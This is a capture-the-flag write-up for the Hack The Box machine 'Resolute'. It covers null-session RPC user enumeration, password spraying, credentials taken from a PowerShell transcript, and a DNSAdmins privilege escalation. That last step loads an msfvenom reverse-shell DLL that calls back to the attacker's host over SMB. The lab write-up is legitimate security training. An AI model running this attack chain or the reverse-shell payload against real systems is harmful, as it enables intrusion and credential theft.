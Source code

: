 ```yaml
---
description: https://app.hackthebox.com/machines/220
---
```


# 🐟 Resolute

<figure><img src="../../.gitbook/assets/image (999).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1000).png" alt=""><figcaption></figcaption></figure>

So we can see the domain is megabank.local, so let's add it to /etc/hosts file:

```
10.129.218.158  Resolute.megabank.local Resolute megabank.local
```

We then try enumerating SMB, we get anonymous login but no shares appears to be there

```
smbclient -L //10.129.218.158 
```

<figure><img src="../../.gitbook/assets/image (1001).png" alt=""><figcaption></figcaption></figure>

We could try using null auth or smbmap with:

```
smbmap -H 10.129.218.158
```

but nothing works

same for rpcclient:

```
rpcclient 10.129.218.158
```

But when we try null auth this times it works:

```
rpcclient -U "" -N 10.129.218.158
```

* **U ""**:
  * The `-U` option specifies the username to use for the connection. In this case, `""` (an empty string) means that no username is provided.
  * This can be useful for anonymous connections where the server does not require a username.
* **-N**:
  * The `-N` option tells `rpcclient` to use an anonymous login. This means that no password will be prompted for or provided. It is often used together with `-U ""` for anonymous access.

Then we use the enumdomusers to list some users in the domain:

<figure><img src="../../.gitbook/assets/image (1002).png" alt=""><figcaption></figcaption></figure>

We copy this output to a file and use awk to clean it:

```
cat enumdom.txt | awk -F\[ '{print $2}' | awk -F\] '{print $1}'
```

<figure><img src="../../.gitbook/assets/image (1003).png" alt=""><figcaption></figcaption></figure>

To continue enumeration, we could use cme to list out various info like password policy to look for lockout policy so we can bruteforce aggresivly:

```
cme smb --pass-pol 10.129.218.158 
```

<figure><img src="../../.gitbook/assets/image (1004).png" alt=""><figcaption></figcaption></figure>

While enumerating rpc, we can't forget to use the querydispinfo command that leads us to a clear text password:

<figure><img src="../../.gitbook/assets/image (1005).png" alt=""><figcaption><p>marko:Welcome123!</p></figcaption></figure>

So we exit rpcclient and hop on cme to test out the credentials

```
cme smb 10.129.218.158 -u marko -p 'Welcome123!'
```

But we get a login failure, so let's try spraying with the proper user list output :

```
cme smb 10.129.218.158 -u cleanedusers.txt -p 'Welcome123!'
```

<figure><img src="../../.gitbook/assets/image (1006).png" alt=""><figcaption></figcaption></figure>

and we get a hit for melanie :raised\_hands:

So we go on cme and test out the creds, it works, so we launch evil-winrm to connect via a session:

<figure><img src="../../.gitbook/assets/image (1007).png" alt=""><figcaption></figcaption></figure>

What we also need to do is enumerate SMB as an authd user ->

```
smbmap -d megabank.local -u melanie -p 'Welcome123!' -H 10.129.218.158
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we enumerate the session, we don't find anything in the home dir so we ho at root and run ls -force

The command `ls -force` as written appears to be a mix of Unix/Linux and PowerShell syntax, and it doesn't directly apply to Unix/Linux systems. Instead, it resembles a PowerShell command. In PowerShell, `ls` is an alias for the `Get-ChildItem` cmdlet, and the `-Force` parameter is used to show hidden and system files.

* **ls**:
  * An alias for the `Get-ChildItem` cmdlet, which lists the contents of a directory.
  * It functions similarly to the `ls` command in Unix/Linux, but it is a part of PowerShell and can be used on Windows systems.
* **-Force**:
  * A parameter for `Get-ChildItem` that forces the command to include hidden and system files in its output.
  * Without `-Force`, `Get-ChildItem` would only list the visible files and directories.

We find the interesting file:

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We continue our rabbit hole ->

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt</p></figcaption></figure>

We look at the content of the file and we can see the creds for the ryan user:

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>ryan Serv3r4Admin4cc123!</p></figcaption></figure>

So obviously we pivot towards the ryan user using evil winrm ->

and look at the groups using `whoami /groups`

{% embed url="https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#dnsadmins" %}

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Members of DNSAdmins group have access to network DNS information. The default permissions are as follows: Allow: Read, Write, Create All Child objects, Delete Child objects, Special Permissions.
{% endhint %}

{% embed url="https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2" %}

We follow the documentation, create a malicious dll with msfvenom as follows:&#x20;

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.58 LPORT=4444 -f dll > privesc.dll
```

then we need to transfer the file ->

{% embed url="https://blog.ropnop.com/transferring-files-from-kali-to-windows/" %}

So we will start by creating our smbserver with impacket ->

```
smbserver.py share .
```

`smbserver.py share .` is used to start an SMB (Server Message Block) server using the `smbserver.py` script from the Impacket library. This script allows you to quickly set up an SMB server on a specified share name and directory.

* **share**:
  * This is the name of the share that you are creating. When clients connect to the SMB server, they will use this share name to access the files.
  * For example, if you specify `share`, clients will access it via `\\<server-ip>\share`.
* **.**:
  * This indicates the directory to be shared. The `.` (dot) represents the current directory from which the command is being run.
  * All files and subdirectories within the current directory will be accessible through the SMB share.

Now launch netcat with the port of your msfvenom payload

{% hint style="info" %}
Some googling around for this group led me to the [lolbas page](https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/) for `dnscmd` to load a dll over a UNC path. There’s a command to set a server level plugin dll:



dnscmd.exe /config /serverlevelplugindll \\\path\to\dll
{% endhint %}

```
dnscmd.exe /config /serverlevelplugindll \\10.10.14.58\share\privesc.dll
```

* `dnscmd.exe` is a command-line tool used to manage DNS servers.
* The `/config /serverlevelplugindll` option sets the path of a DLL that the DNS server will load as a plugin.
* `\\10.10.14.58\share\privesc.dll` specifies the path to your malicious DLL hosted on the SMB server.
* When this command is executed, the DNS server is configured to load the `privesc.dll` from the SMB share.

```
sc.exe \\resolute stop dns
```

```
sc.exe \\resolute start dns
```

* `sc.exe` is a command-line tool for managing Windows services.
* `sc.exe \\resolute stop dns` stops the DNS service on the target server (named `resolute`).
* `sc.exe \\resolute start dns` starts the DNS service again.
* Restarting the DNS service forces it to load the newly configured server-level plugin DLL (`privesc.dll`).

***

* When the DNS service starts, it loads the `privesc.dll` file from the SMB share.
* If `privesc.dll` contains a reverse shell payload, it will execute with the privileges of the DNS service, which can be high, potentially including domain admin privileges.
* During this process, when `dnscmd.exe` or the DNS service accesses the SMB share to retrieve the `privesc.dll`, the system may send NTLM authentication hashes to the SMB server.
* These hashes can be captured by tools like `Responder` or directly observed in the output of `smbserver.py`.

<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
